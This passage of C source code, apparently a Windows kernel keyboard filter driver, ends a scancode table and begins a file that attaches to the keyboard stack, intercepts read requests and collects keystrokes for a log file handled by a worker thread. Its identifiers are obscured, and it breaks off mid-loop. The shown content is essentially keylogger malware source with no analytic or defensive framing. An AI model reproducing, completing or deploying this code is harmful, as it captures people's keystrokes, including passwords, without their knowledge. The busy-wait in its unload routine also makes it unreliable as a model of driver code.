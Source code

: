 ```c
    '2', //50
    '3', //51
    '0', //52
};
```
`r.c`
```c
#include "ntddk.h"
#include "ntddkbd.h"
#include "aa.h"
typedef BOOLEAN bool;
struct KEY_STATE {
    bool kSHIFT;
    bool kCAPSLOCK;
    bool kCTRL;
    bool kALT;
};
struct KEY_DATA {
    LIST_ENTRY ListEntry;
    char KeyData;
    char KeyFlags;
};
typedef struct {
    PDEVICE_OBJECT pakd;
    PETHREAD pThreadObj;
    bool bThreadTerminate;
    HANDLE hLogFile;
    struct KEY_STATE kState;
    KSEMAPHORE sem;
    KSPIN_LOCK spin;
    LIST_ENTRY List;
}
zzz, * Pzzz;
int numPendingIrps = 0;
NTSTATUS DispatchPassDown(PDEVICE_OBJECT pDeviceObject, PIRP pIrp) {
    DbgPrint("DispatchPassDown");
    IoSkipCurrentIrpStackLocation(pIrp);
    return IoCallDriver(((Pzzz) pDeviceObject -> DeviceExtension) -> pakd, pIrp);
}
VOID Unload(PDRIVER_OBJECT p) {
    Pzzz pzzz = (Pzzz) p -> DeviceObject -> DeviceExtension;
    IoDetachDevice(pzzz -> pakd);
    DbgPrint("Unload numPendingIrps=%d", numPendingIrps);
    while (numPendingIrps > 0) {}
    pzzz -> bThreadTerminate = 1;
    KeReleaseSemaphore( & pzzz -> sem, 0, 1, TRUE);
    DbgPrint("Unload Before Wait");
    KeWaitForSingleObject(pzzz -> pThreadObj, Executive, KernelMode, 0, NULL);
    DbgPrint("Unload After Wait");
    ZwClose(pzzz -> hLogFile);
    IoDeleteDevice(p -> DeviceObject);
    return;
}
NTSTATUS abcReadOver(PDEVICE_OBJECT pDeviceObject, PIRP pIrp, PVOID Context) {
    Pzzz pzzz = (Pzzz) pDeviceObject -> DeviceExtension;
    if (pIrp -> IoStatus.Status == STATUS_SUCCESS) {
        int i;
        PKEYBOARD_INPUT_DATA keys = (PKEYBOARD_INPUT_DATA) pIrp -> AssociatedIrp.SystemBuffer;
        int numKeys = pIrp -> IoStatus.Information / sizeof(KEYBOARD_INPUT_DATA);
        DbgPrint("abcReadOver numKeys=%d Flags=%d Scancode=%d", numKeys, keys[0].Flags, keys[0].MakeCode);
        for (i = 0; i < numKeys; i++) {
```